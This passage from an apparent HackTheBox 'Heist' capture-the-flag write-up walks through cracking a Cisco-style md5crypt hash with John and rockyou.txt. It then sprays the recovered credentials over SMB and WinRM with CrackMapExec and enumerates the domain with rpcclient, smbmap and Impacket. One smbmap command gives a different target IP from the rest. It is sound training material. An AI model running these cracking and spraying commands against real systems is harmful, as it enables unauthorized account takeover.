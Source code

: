 ```bash
$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```

Cracked with John:

```bash
john -w:$(locate rockyou.txt | tail -n 1) hash.txt
```

![](GitHubv2/HackTheBox/EASY/Heist/screenshots/john_hash.png)

Recovered password: **stealth1agent**

![](GitHubv2/HackTheBox/EASY/Heist/screenshots/passwords.png)

---
## 4. SMB & User Enumeration

### 4.1 CrackMapExec Attempts

We combine users and passwords:

```bash
crackmapexec smb 10.10.10.149 -u users.txt -p passwds.txt --continue-on-success
```

![](GitHubv2/HackTheBox/EASY/Heist/screenshots/crackmapexec_smb_hazard.png)

User **Hazard** is valid with password `stealth1agent`.


``` bash
crackmapexec winrm 10.10.10.149 -u 'hazard' -p 'stealth1agent'
```

![](GitHubv2/HackTheBox/EASY/Heist/screenshots/crackmapexec_winrm_hazard.png)

The account does not belong to the **Remote Management Users** group, so we cannot use WinRM at this stage.  
Next, we attempt to enumerate resources with `rpcclient` and `smbmap`:

``` bash
rpcclient -U "hazard%stealth1agent" 10.10.10.149 -c 'enumdomusers'
smbmap -H 10.10.11.174 -u 'hazard%stealth1agent'
```

![](GitHubv2/HackTheBox/EASY/Heist/screenshots/smbmap_rpcclient_NOK.png)

No useful information is retrieved.  

### 4.2 Domain Enumeration

To continue, we use **Impacket’s `lookupsid.py`**, which allows enumeration of domain accounts when valid credentials are available. With the following details:

- **Username**
- **Password**
- **Domain**
- **Target IP**
